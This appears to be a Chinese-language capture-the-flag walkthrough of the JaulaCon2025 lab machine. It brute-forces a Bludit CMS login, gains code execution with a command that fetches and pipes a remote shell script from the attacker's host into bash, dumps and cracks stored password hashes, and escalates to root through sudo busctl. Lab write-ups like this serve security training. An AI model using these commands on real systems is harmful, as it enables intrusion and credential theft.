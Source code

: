 # JaulaCon2025

2025.03.29 https://thehackerslabs.com/jaulacon2025/

[video](https://www.bilibili.com/video/BV1BfZwYWESw/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

jaulacon2025.thl 添加到 hosts 中， 发现 CMS BLUDIT 3.9.2 有一些漏洞但是都需要有登陆凭据。

https://github.com/ColdFusionX/CVE-2019-17240_Bludit-BF-Bypass/blob/main/exploit.py

经过搜索这个 cms 默认管理员是 admin，但是没有爆破出来登陆密码。在首页上只有一个显示 Jaulacon2025 ，也可能是用户名的提示，尝试爆破登陆密码:

```
python3 exploit.py -l http://jaulacon2025.thl/admin/login.php -u user -p ~/tools/dict/pass5000.txt|grep -A 3 -B 3 'SUCCESS'

Brute Force: Testing -> Jaulacon2025:cassandra
```

获得凭据后，可以执行 rce，得到反弹的 shell:

```
searchsploit -m 48568

python3 48568.py -u http://jaulacon2025.thl -user Jaulacon2025 -pass cassandra -c 'wget -q -O- http://192.168.5.3/shell/5.3/8888.sh|bash'
```

普通用户 JaulaCon2025 目录中的 user flag 目前没权限读取。在 web 管理后台上发现也创建了一个 JaulaCon2025 用户，可能密码相同，寻找这个 web 用户的密码。

www-data@JaulaCon2025:/var/www/html/bl-content/databases$ cat users.php

```json
"admin": {
        "password": "67def80155faa894bfb132889e3825a2718db22f",
        "salt": "67e2f74795e73",
    },
"Jaulacon2025": {
        "password": "a0fcd99fe4a21f30abd2053b1cf796da628e4e7e",
        "salt": "bo22u72!",
    },
"JaulaCon2025": {
        "password": "551211bcd6ef18e32742a73fcb85430b",
        "salt": "jejej",
    }
```

这里发现它的密码加密算法: https://raw.githubusercontent.com/bludit/password-recovery-tool/master/recovery.php

```
$salt = uniqid();
$password = md5(uniqid());
$passwordHash = sha1($password.$salt);
$decode['admin']['salt'] = $salt;
$decode['admin']['password'] = $passwordHash;
$decode['admin']['role'] = 'admin';
```

对应 hashcat 中模式是 110 , 551211bcd6ef18e32742a73fcb85430b:jejej 但是没出来，哈希长度都不对。 看看能不能找到 551211bcd6ef18e32742a73fcb85430b 的明文，结果是 Brutales ，可以切换到 JaulaCon2025

拿到 user flag：

```
JaulaCon2025@JaulaCon2025:~$ cat  user.txt
368409a919088e8707d0617365156184  -
```

sudo -l /usr/bin/busctl

```
sudo busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
```

拿到 root：

```
# cat root.txt
097fac9db83a1806f3355cf95227992a  -
```
